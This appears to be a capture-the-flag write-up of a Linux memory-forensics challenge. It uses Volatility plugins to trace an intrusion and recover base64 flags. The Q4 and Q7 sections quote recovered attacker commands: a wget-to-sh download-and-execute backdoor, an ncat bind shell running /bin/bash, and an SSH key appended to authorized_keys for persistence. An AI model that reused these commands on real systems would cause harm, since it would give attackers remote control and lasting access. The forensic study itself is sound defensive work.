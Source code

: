 # Seized

The Scenario:

> Using Volatility, utilize your memory analysis skills as a security blue team analyst to Investigate the provided Linux memory snapshots and figure out attack details.

## Q1. What is the CentOS version installed on the machine?

The archive name provides the kernel version, using the [CentOS Wikipedia page](https://en.wikipedia.org/wiki/CentOS) you will see that the corresponding CentOS version is `7.7-1908`.

## Q2. There is a command containing a strange message in the bash history. Will you be able to read it?

Using `linux_bash` plugin we could see that the user put content in a file : `echo "c2hrQ1RGe2wzdHNfc3Q0cnRfdGgzXzFudjNzdF83NWNjNTU0NzZmM2RmZTE2MjlhYzYwfQo=" > y0ush0uldr34dth1s.txt`. Decode the base64 using cyberchef gives the flag.

## Q3. What is the PID of the suspicious process?

`linux_pstree` shows more than 200 processes. Instead to explore each of them, a clever way is to directly focuse on strange processes using `linux_malfind` : 

```log
Process: gnome-terminal- Pid: 2535 Address: 0x7f1d414bf000 File: Anonymous Mapping
Protection: VM_READ|VM_WRITE|VM_EXEC
Flags: VM_READ|VM_WRITE|VM_EXEC|VM_MAYREAD|VM_MAYWRITE|VM_MAYEXEC|VM_ACCOUNT|VM_CAN_NONLINEAR

0x007f1d414bf000  78 5f 00 00 00 00 00 00 00 00 00 00 00 00 00 00   x_..............
0x007f1d414bf010  53 41 57 41 56 41 55 55 48 8b df 48 81 ec 50 02   SAWAVAUUH..H..P.
0x007f1d414bf020  00 00 48 8b 43 10 48 83 e8 01 48 8d 74 24 58 48   ..H.C.H...H.t$XH
0x007f1d414bf030  c7 c1 13 00 00 00 48 89 46 08 48 8d 76 08 48 83   ......H.F.H.v.H.
```

Exploring this PID on the `pstree`, proove that there is something suspicious, as `insmod` is used to insert modules into the kernel : 

```log
...
.gnome-terminal-     2535            1000
..gnome-pty-helpe    2621            1000
..bash               2622            1000
...sudo              3612
....insmod           3614
...
```

**Unfortunately, that's none of them.** Suspicious activity is not always malicious.

Exploring again the `pstree`, we can see something else suspicious :

```log
.ncat                2854
..bash               2876
...python            2886
....bash             2887
.....vim             3196
```

This one is more suspicious than the previous one because of the `ncat` (network process) launching some scripts.

## Q4. The attacker downloaded a backdoor to gain persistence. What is the hidden message in this backdoor?

I was unable to find this answer. I tried to list all the cached files using `linux_cached_file` to see if there is some suspicious one and dump it, but I found nothing. I tried to dump the suspicious process but without results too.

I also tried the github present in the bash history but I didn't see the hidden line pushed to the right : 

```python3
os.system('wget -O - https://pastebin.com/raw/nQwMKjtZ 2>/dev/null|sh')
```

A write-up gave me the flag because the links seems not valid anymore. This pastebin should contains a base64 strings which is the flag :

```bash
### Congratz : c2hrQ1RGe3RoNHRfdzRzXzRfZHVtYl9iNGNrZDAwcl84NjAzM2MxOWUzZjM5MzE1YzAwZGNhfQo=
nohup ncat -lvp 12345 -4 -e /bin/bash > /dev/null 2>/dev/null &
```

## Q5. What are the attacker's IP address and the local port on the targeted machine?

Using `linux_netstat` returns a lot of information but at the end of the output we could see theses lines : 

```log
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  ncat/2854 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  bash/2876 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                python/2886 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                  bash/2887 
TCP      192.168.49.135  :12345 192.168.49.1    :44122 ESTABLISHED                   vim/3196 
```

The **local** port is the one written in the script above, and the attacker's IP address is the other.

## Q6. What is the first command that the attacker executed?

We can't see other commands with `linux_bash`, a different way to investigate on this kind of clues is the `linux_psaux` plug-in. The output bottom is interesting, as it contains the malware related command line arguments :

```log
2854   0      0      ncat -lvp 12345 -4 -e /bin/bash
2876   0      0      /bin/bash
2886   0      0      python -c import pty; pty.spawn("/bin/bash")
2887   0      0      /bin/bash
3196   0      0      vim /etc/rc.local
3271   0      0      /usr/sbin/abrt-dbus -t133
3279   89     89     cleanup -z -t unix -u
3280   89     89     trivial-rewrite -n rewrite -t unix -u
3281   0      0      local -t unix
3299   0      0      sleep 60
3612   0      0      sudo insmod lime-3.10.0-1062.el7.x86_64.ko path=/Linux64.mem format=lime
3614   0      0      insmod lime-3.10.0-1062.el7.x86_64.ko path=/Linux64.mem format=lime
```

Just after the `netcat`, the attackers run `python -c import pty; pty.spawn("/bin/bash")`.

## Q7. After changing the user password, we found that the attacker still has access. Can you find out how?

This question is quite hard. First, you have to investigate on the `vim` process. Why this process?

- we didn't care of it yet

- it's a part of the cyber kill chain

- intuition I guess?

After dumping the process using `linux_dump_map`, we could see that the process memory contains lot of information. It contains so much that is difficult to know what to look for. We are looking for malware persistence mecanisms, we can try to ask to ChatGPT what are the most famous persistence mecanism. We can investigate on several answer but the good one is SSH keys. If we search on these files for ssh-things, we will find the answer :

```logs
strings *.vma|grep -i 'ssh'

#!/bin/sh 
     # Well played : c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=
    
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
    "/etc/rc.local" 3L, 596C
    1,1           
    All zed_keys> /home/k3vin/.ssh/authorized_keys && 
    chmod 600 /home/k3vin/.ssh/authori
```

The first base64 encoded string is the flag. It's interesting to capitalize on knowledge to understand this persistance mecanism :

**This code add a SSH key for the K3vin user and modify its permissions in a manner that only this user can modify it.**

## Q8. What is the name of the rootkit that the attacker used?

Thanks to this tutorial, [Analyzing Linux Rootkits with Volatility](https://downloads.volatilityfoundation.org/omfw/2012/OMFW2012_Case.pdf), we learned some ways to detect rootkit on a Linux system. One of them is to investigate on syscalls using `linux_check_syscall`. This command returns lot of information but we are only interested in the hooked syscalls.

```logs
Table Name Index System Call              Handler Address    Symbol                                                      
---------- ----- ------------------------ ------------------ ------------------------------------------------------------
64bit         88                          0xffffffffc0a12470 HOOKED: sysemptyrect/syscall_callback
...
64bit        332                          0x6461625f6e726177 HOOKED: UNKNOWN
```

Firstly, I was quite lost ; how can I find the rootkit name ? In fact, the `Symbol` column contains the rootkit name here.

## Q9. The rootkit uses crc65 encryption. What is the key?

Firstly, I searched on internet if this rootkit has a known crc65 encryption key. I found many Write-Up but searching `sysemptyrect` in the dump file (using `grep` for example) will give you the key.